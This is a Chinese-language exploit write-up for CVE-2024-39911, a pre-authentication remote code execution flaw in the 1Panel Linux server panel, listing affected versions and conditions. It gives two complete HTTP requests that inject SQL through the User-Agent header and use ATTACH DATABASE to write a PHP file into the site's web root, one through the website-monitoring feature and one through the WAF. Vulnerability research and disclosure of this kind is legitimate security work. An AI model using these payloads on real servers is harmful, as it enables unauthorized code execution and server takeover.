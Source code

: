 # 1Panel面板最新前台RCE漏洞(CVE-2024-39911)

**1Panel 是新一代的 Linux 服务器运维管理面板，用户可以通过 Web 图形界面轻松管理 Linux 服务器，实现主机监控、文件管理、数据库管理、容器管理等功能。且深度集成开源建站软件 WordPress 和 Halo.**

## 0x1 测试版本

专业版 v1.10.10-lts
社区版 v1.10.10-lts
1panel/openresty:1.21.4.3-3-1-focal

## 0x2 影响范围

网站监控功能影响 == 1panel/openresty:1.21.4.3-3-1-focal
WAF功能影响 <= 1panel/openresty:1.21.4.3-3-1-focal

## 0x3 题外话

具体测试/发现过程在 `https://blog.mo60.cn/index.php/archives/1Panel_SQLinjection2Rce.html` 有兴趣的大佬们可以看看

## 0x4 网站监控功能GetShell

利用条件:

- 专业版,并开启网站监控功能
- 关闭waf功能
- 安装有1P-openresty容器且搭建有php环境网站

默认网站路径格式如下，这个路径是在op容器里面的路径

```
/www/sites/网站代号(默认为域名)/index/
```



通过sql注入导出文件到网站路径下

```yaml
GET / HTTP/1.1
Host: 192.168.99.6
User-Agent: ua', 'blog.mo60.cn', 5201314, '', '', 1, '2024-06-09 08:16:52', 1817921010.847, '/AAAAAAA', 52014, '2025-06-09', '16', '', '', 'Linux', 'edge', 'pc', '', '');ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
```



然后来到网站路径下可以看到我们写入的文件

[![image](../../images2/338056404-4c64d116-6187-4661-8e9e-d3ae21b189bd.png)

访问发现成功输出blog.mo60.cn 的md5值，成功执行代码

[![image](../../images2/338056240-52bc1681-bba4-4e50-bca5-3a1a2821eb8f.png)

## 漏洞判定
  访问路径/mo60.cn.php是否输出 blog.mo60.cn 的md5值

## 0x5 Waf功能

利用条件:

- 开启waf功能
- 安装有1P-openresty容器且搭建有php环境网站

发送后即可成功写入文件

```yaml
GET /.git/config HTTP/1.1
Host: 192.168.99.6
User-Agent: blog.mo60.cn',"args", "sqlInjectA", "", "YmxvZy5tbzYwLmNu", "blog.mo60.cn", 0, "deny", 0, 1);ATTACH DATABASE '/www/sites/index/index/mo60.cn.php' AS test ;create TABLE test.exp (dataz text) ; insert INTO test.exp (dataz) VALUES ('<?= md5("blog.mo60.cn"); ?>');#
Connection: close
```



## 漏洞来源

- https://github.com/1Panel-dev/1Panel/security/advisories/GHSA-7m53-pwp6-v3f5
